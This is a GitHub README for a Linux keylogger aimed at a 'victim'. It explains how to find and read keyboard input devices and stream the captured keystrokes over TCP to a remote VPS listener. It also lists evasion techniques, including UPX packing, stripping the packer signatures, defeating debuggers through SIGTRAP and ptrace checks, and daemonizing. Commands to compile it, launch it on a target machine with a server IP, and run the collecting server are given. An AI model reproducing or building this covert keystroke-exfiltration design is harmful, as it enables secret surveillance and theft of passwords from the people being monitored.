

# 4 k3yl0gg3r f0r r341 h4x0r5 !!1



## Credits

Made in collaboration with:

- [Adina C.](https://github.com/darksailormoonlight)
- [Nils H.](https://github.com/nilshammond)

## How can I write one of my own ?

There is many steps to do a project of the sort. First, you will need to find
the victim's keyboard of course ! For this, I invite you to check on your Linux
install the directory `/dev/input/by-path/` and you should see a symlink ending
with `kbd`. That's your keyboard. You can see that it points to an event in the
parent directory. You should be able to find this event using the `readlink()`
function. You can read my code in `logger/sources/get_keyboard.c` to check how
I did it. :)

You can also take into account that there might be multiple keyboards, because
the victim has a USB keyboard plugged in, for instance. To circonvent that, I
chose to store every file descriptor matching the description of a keyboard,
and use the `select` syscall to find one when I can read on one of them.
I invite you to read the `man` page of `select` for more information about this.

Once you have found the keyboard(s), and opened it (or them), you will to store
your logs somewhere, right ? For tests purposes, I just added the IP of a cheap
VPS in a `#define`, and set up the server part there. For the socket creation,
I used the TCP Protocol, and just used `connect` to connect to my distant server.
I did not do anything else, as I have not implemented any Remote-Access
functionnality, and it just sends data forever. I also set up a log file, in
`/tmp/` for testing purposes.

Now, let's go over the fun part: the logger in itself ! You will need to get a
`char` array containing all the keys that can be typed. It is defined in
`/usr/include/linux/input.h` on my machine, but it can be different for you.
Next, you will use `select` to check when you can read new keys, or just call
`read` until the return value is -1, if you only have one keyboard.

At this point, you have your basic keylogger, it is absolutely not obfuscated,
does not handle SHIFT keys, but this is a good base. Here are a few ideas of
things I implemented, or want to implement:

### Obfuscation

- using the UPX packer to compress your binary and remove unecessary section
headers (you will need to compile with `-static`)
- implementing a `sigaction` that renders `SIGTRAP` useless, so that debuggers
 like GDB do not work
- check if `ptrace` is currently called on your program, to disable debuggers
 like GDB
- created a simple script that will remove the strings from the compressed
binary indicating it has been packed with UPX

### Features

- support non-QWERTY keyboard layouts
- set up a wrapper around the time where you write logs, by nullifying `SIGPIPE`
when writing, so that it won't abruptly fail
- support SHIFT keys
- daemonize the program (see `./logger/sources/main.c`)
- basic XOR encryption (upgrade to SSL if possible)

## How do I use the keylogger ?

to compile, just launch the `compile_logger.sh` script like so:

```sh
# installing UPX packer for Ubuntu
sudo apt install -y upx && sh compile_logger.sh
```

To launch the keylogger, you will need admin access to the target machine,
and from there, start the program. You will have to pass the listener's IP like so:

```sh
./k3yl0gg3r ${SERVER_IP}
```

## Server

```sh
pip install -r requirements.txt && python3 ./server/TCP_handler.py
```

Output will be stored in `.logkeys.csv`
